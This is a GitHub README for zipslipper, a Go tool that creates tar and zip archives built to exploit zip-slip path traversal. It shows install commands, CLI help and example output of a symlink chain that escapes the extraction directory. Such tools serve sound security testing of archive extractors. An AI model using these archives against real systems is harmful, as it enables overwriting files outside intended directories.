 # zipslipper
<p align="right">
  [![golangci-lint](https://github.com/NodyHub/zipslipper/actions/workflows/golangci-lint.yml/badge.svg)](https://github.com/NodyHub/zipslipper/actions/workflows/golangci-lint.yml)
</p>
Create tar/zip archives that try to exploit zipslip vulnerability.

## CLI Tool

You can use this library on the command line with the `zipslipper` command.

### Installation

```cli
go install github.com/NodyHub/zipslipper@latest
```

### Manual Build and Installation

```cli
git clone git@github.com:NodyHub/zipslipper.git
cd zipslipper
make
make install
```

## Usage

Basic usage on cli:

```shell
% zipslipper -h
Usage: zipslipper <input> <relative-path> <output-file> [flags]

A utility to build tar/zip archives that performs a zipslip attack.

Arguments:
  <input>            Input file.
  <relative-path>    Relative extraction path.
  <output-file>      Output file.

Flags:
  -h, --help                  Show context-sensitive help.
  -t, --archive-type="zip"    Archive type. (tar, zip)
  -v, --verbose               Verbose logging.
  -V, --version               Print release version information.
```

## Usage example

### Zip

```shell
(main[2]) ~/git/zipslipper% zipslipper go.mod ../../foo/bar/go.mod test.zip
(main[2]) ~/git/zipslipper% unzip -l test.zip
Archive:  test.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  09-20-2024 11:01   sub/
        3  09-20-2024 11:01   sub/root
        3  09-20-2024 11:01   sub/root/outside
        3  09-20-2024 11:01   sub/root/outside/0
        3  09-20-2024 11:01   sub/root/outside/0/1
        0  09-20-2024 11:01   sub/root/outside/0/1/foo/
        0  09-20-2024 11:01   sub/root/outside/0/1/foo/bar/
      103  09-20-2024 08:39   sub/root/outside/0/1/foo/bar/go.mod
---------                     -------
      115                     8 files
```

### Tar

```shell
(main[2]) ~/git/zipslipper% zipslipper -t tar go.mod ../../foo/bar/go.mod test.tar
(main[2]) ~/git/zipslipper% tar ztvf test.tar
drwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/
lrwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root -> ../
lrwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside -> ../
lrwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside/0 -> ../
lrwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside/0/1 -> ../
drwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside/0/1/foo/
drwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside/0/1/foo/bar/
-rw-r--r--  0 jan    staff     103 20 Sep 08:39 sub/root/outside/0/1/foo/bar/go.mod
```
